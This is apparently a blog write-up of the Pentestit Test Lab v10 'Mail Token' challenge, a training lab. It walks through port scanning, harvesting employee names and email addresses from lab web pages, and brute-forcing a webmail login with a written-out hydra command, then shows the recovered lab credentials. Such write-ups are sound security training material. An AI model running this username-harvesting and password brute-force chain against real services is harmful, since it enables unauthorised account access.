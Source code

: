 ```yaml
---
title: Pentestit Test Lab v10 WriteUp - Mail Token
categories: ['CTF WriteUp']
tags: ['Hacking']
---
```


# Intro/Network
Lets look at the network diagram first:
![Image]({{ site.baseurl }}/images/testlabv10network.png)
Seems like a gray/whitebox lab, nice! Now to reach the internal networks we have to get past the gateway. After connecting to the VPN we can start attacking.

# Gathering Info
Since we can only attack the gateway, lets start gathering some info. Doing a quick nmap scan reveales the following open ports.
![Image]({{ site.baseurl }}/images/testlabv10gwnmap.png)

Usually, websites are a good start to get more info, lets check them out.

## Web on port 80
Accessing the website on port 80 brings me to their main homepage. I searched through it for a long time but couldnt find anything useful. After that I decided to continue to port 443.

## Web on port 443
Accessing the website on port 443 lead me to some kind of security blog. Searching the website for info, I found the following comment in the source:

{% highlight html %}
<!-- Alfred Modlin said use this template -->
{% endhighlight %}

hmm, looks like a employees name. maybe we can use that name later?

Searching further through the site, I found the following 2 emails on the contact site:

{% highlight html %}
Scott Locklear- s.locklear@gds.lab
Joshua Wise- j.wise@gds.lab
{% endhighlight %}

Now we know the e-mail format for the company! Combine that with the name found earlier, we possibly have another user: a.modlin@gds.lab!

## Web on port 8100
Moving on to port 8100, which looks like another webserver. Accessing the website itself brings me to a login-form of their webmail. Maybe we can bruteforce a users login via the login-form?


# Bruteforcing login
Since we want to try all possible users, ive added the found emails to a file named "users.txt". After that I started to bruteforce the login-form on http://192.168.101.9:8100/login/ with the following command:

{% highlight shell %}
hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
{% endhighlight %}

With success! We found the login for a.modlin:

{% highlight shell %}
[8100][http-post] host: 192.168.101.9 login: a.modlin@gds.lab password: justdoit
[STATUS] attack finished for 192.168.101.9 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

After logging in with the found credentials, I found 2 E-Mails with one of them containing the token. Task Done!
